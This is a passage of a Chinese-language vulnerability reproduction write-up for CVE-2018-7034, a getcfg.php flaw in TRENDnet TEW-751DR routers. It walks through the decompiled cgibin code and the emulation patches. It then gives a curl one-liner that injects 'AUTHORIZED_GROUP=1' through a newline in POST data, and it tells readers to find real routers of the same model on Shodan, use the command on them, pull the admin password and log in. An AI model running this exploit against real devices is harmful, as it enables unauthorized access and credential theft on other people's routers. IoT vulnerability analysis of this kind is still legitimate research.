

重点在于我们的 `else分支`

```
  else
  {
    sobj_add_string(a1, "_POST_");
    v5 = sobj_get_string(a2[1]);
    sobj_add_string(a1, v5);
    sobj_add_char(a1, 61);
    v6 = a2[2];
  }
```



这里会按照 `POST` 请求对输入的内容进行解析，就是找到一个 `=` 再将前后分离并且拼接，然后将解析好的内容拼接到上面的字符串

随后我们回到 `phpcgi_main`  
下面会有一个 `sess_validate()` 函数  
按照下面路径我们会发现程序会打开一个 `"/var/session/sesscfg"` 文件，而我们模拟的是没有的，我们只能将它 `patch` 掉

```
 sess_validate -> sub_409504 -> sub_4090B0
```

也就是把 `phpcgi_main` 中 `v13 = sess_validate();` 这一行代码去掉  
同时为了模拟真实情况，我们手动补上 `li $v0，-1` 使得原先的 `v12` 最后为 `-1`

按照下方式修改  
  
修改后如下  


`patch` 之后我们使用保存修改并导出，然后替换掉我们 `squashfs-root` 文件夹中原本的 `cgibin`   
我们继续开始调试最后一步查看我们的 `AUTHORIZED_GROUP` 最后是什么

我们运行到 `sprintf(v15, "AUTHORIZED_GROUP=%d", -1);`  
  


执行之后

  


```
"_POST_SERVICES=DEVICE.ACCOUNT
_POST_attack=ture
AUTHORIZED_GROUP=1

AUTHORIZED_GROUP=-1"
```

也就是说程序原本打算写入的是 `AUTHORIZED_GROUP=-1`，但是由于前面我们已经插入了一个`AUTHORIZED_GROUP=1` 以此被我们截胡了，让 `AUTHORIZED_GROUP` 变成了 `1` 由此绕过了检测

### **漏洞利用演示**

前面叽里呱啦讲一堆都不重要，其实不论有没有看懂都不影响我们使用  
我们只需要使用下面这条指令就行

```
curl -d "SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1" "http://[ip:port]/getcfg.php"
```

在 `shodon` 找个同型号的路由器试一试  
[tew-751dr - Shodan Search](https://www.shodan.io/search?query=tew-751dr)



在浏览器访问 `ip:port`  
访问成功会出现下面界面  


我们直接使用上面给出的指令

```
curl -d "SERVICES=DEVICE.ACCOUNT%0aAUTHORIZED_GROUP=1" "http://[ip:port]/getcfg.php"
```

由此我们可以获得密码  


然后就可以成功登入了  


到此为止算是复现完成了

​

​

参考:  
[Dlink getcfg.php远程敏感信息读取漏洞分析-先知社区](https://xz.aliyun.com/news/6057)  
[D-Link 登录信息泄露（越权）CVE-2018-7034 漏洞分析\_trendnet路由器getcfg.php-信息泄露漏洞(cve-2018-7034)-CSDN博客](https://blog.csdn.net/GKD2019/article/details/146465026)  
[一些经典IoT漏洞的分析与复现（新手向） - IOTsec-Zone](https://www.iotsec-zone.com/article/384#d-link-%E7%99%BB%E5%BD%95%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E)
